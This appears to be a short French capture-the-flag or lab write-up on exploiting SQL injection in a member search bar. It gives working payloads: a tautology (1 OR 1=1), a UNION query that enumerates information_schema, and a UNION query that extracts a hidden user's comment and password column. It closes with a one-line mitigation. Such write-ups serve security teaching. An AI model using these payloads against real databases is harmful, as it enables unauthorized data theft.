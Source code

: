 Menu déroulant/Members

## Comment ?
On a une barre de recherche avec le contenu qui est directement injecté dns une requête sql.

1ere étape:

1 OR 1=1 
On récupère tous les users et on se rend compte qu'un user s'appelle flag.

Ensuite on récupère toutes les colonnes de la base de donnée avec: 

1 UNION select table_name, column_name FROM information_schema.columns

Pour finir, dans la table user en testant toutes les colonnes, on trouve les colonnes intéressantes "Commentaire" et "countersign".  
1 UNION SELECT Commentaire, countersign FROM users WHERE first_name = CHAR(70,108,97,103) --  
CHAR(70,108,97,103) = "Flag"

## Comment l'éviter ?

Les ORM bloquent ce genre d'injections. 
